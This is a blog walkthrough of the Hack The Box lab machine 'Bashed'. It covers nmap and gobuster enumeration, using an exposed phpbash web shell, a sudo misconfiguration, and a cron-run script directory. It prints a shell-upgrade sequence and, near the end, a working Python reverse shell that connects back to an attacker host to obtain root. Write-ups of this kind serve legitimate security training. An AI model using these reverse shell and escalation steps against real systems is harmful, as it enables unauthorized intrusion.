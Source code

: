 ```yaml
---
layout: single
title: Hack The Box - Bashed
permalink: /htb-bashed/
excerpt: "Bashed is an easy machine from Hack the Box. This is a really old machine. This machine focuses on file misconfiguration and the dangerous let the web shell out in the open. Like a say, this is an old machine, we have a bunch possibility to learn such as kernel exploit, etc."
classes: wide
header:
  teaser: "/assets/images/htb/bashed/home.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
tags:
  - python
  - crontab
  - file misconfiguration
---
```


![1](/assets/images/htb/bashed/home.png)

### <font color="#9bffc8">Nmap</font>

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### <font color="#9bffc8">Http</font>

Let's take a look at the website. 

![1](/assets/images/htb/bashed/website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](/assets/images/htb/bashed/upload_dir.png)

### <font color="#9bffc8">Gobuster</font>

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](/assets/images/htb/bashed/gobuster.png)

### <font color="#9bffc8">/dev</font>

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](/assets/images/htb/bashed/dev.png)

![1](/assets/images/htb/bashed/web_shell.png)

### <font color="#9bffc8">Reverse Shell</font>

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](/assets/images/htb/bashed/b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](/assets/images/htb/bashed/bs64_webshell.png)

![1](/assets/images/htb/bashed/got_the_shell.png)

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### <font color="#9bffc8">User scriptmanager</font>

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](/assets/images/htb/bashed/scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](/assets/images/htb/bashed/change_2_scriptmanager.png)

### <font color="#9bffc8">/scripts</font>

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](/assets/images/htb/bashed/script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](/assets/images/htb/bashed/contents.png)

### <font color="#9bffc8">Root Shell</font>

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](/assets/images/htb/bashed/petai_root.png)
